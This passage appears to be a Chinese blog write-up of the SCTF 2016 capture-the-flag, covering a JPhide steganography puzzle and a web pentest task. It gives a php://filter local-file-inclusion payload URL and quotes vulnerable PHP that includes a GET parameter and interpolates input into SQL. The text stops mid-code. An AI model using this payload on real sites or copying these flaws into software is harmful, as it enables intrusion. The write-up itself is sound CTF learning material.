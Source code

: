 ```yaml
---
title: sctf2016_writeup
date: 2016-05-09 15:56:54
tags:
- Blogs
- ctf
categories:
- Blogs
---
```


周末打了sctf2016，结果遇到了tomato大神的各种渗透题目....大神的脑回路都好长啊，题目都是一层连一层...
![](/img/sctf2016/point.png)


# MISC
## 神秘代码

讲个故事，叫做神秘代码。

打开故事的目录....
大兄弟，真车啊~~~~~~一颗赛艇

稍微试了一下发现没什么收货，用foremost拆出来一个r.zip，结果主办方说没关系...

后来给出一个提示

**神秘代码_hint stegdetect**

那就下这个软件吧，搞了1天都没搞定，结果换个人换个linux就下好了，跑出来是JPhide，那么搜搜看吧

[http://linux01.gwdg.de/~alatham/stego.html](http://linux01.gwdg.de/~alatham/stego.html)

从这里可以搞到windows版的JPhide解密工具，打开用空密码就可以解出来了
![](/img/sctf2016/misc2.png)

# PENTEST
渗透的水平还不够高，后面看到别的wp会再慢慢补回来...

## homework

进去看到是一个学生的作业系统，稍微翻翻发现一个重要的地方
**http://homework.sctf.xctf.org.cn/homework.php?homework=homework.txt**
存在本地文件包含漏洞，先读源码回来吧
**http://homework.sctf.xctf.org.cn/homework.php?homework=php://filter/read=convert.base64-encode/resource=homework.php**

```index.php
<?php
session_start();
include('./config.php');
@$username=$_POST['username'];
@$password=$_POST['password'];
@include($_GET['homework']);
$username=intval($username);
$password=md5($password);
$result=mysql_query("select * from info where username='$username'&&password='$password'");
$row=mysql_fetch_array($result);
if(empty($row))
{
	print("Ã»ÓÐ¸ÃÑ§Éú»òÕßÃÜ ë´íÁËÒ²ÓÐ¿ÉÄÜÊÇÄãµÄÑ§ºÅ´íÁË.....×ÜÖ®ÓÐÊ²Ã´µØ·½´íÁË¡£");
	exit();
}else
```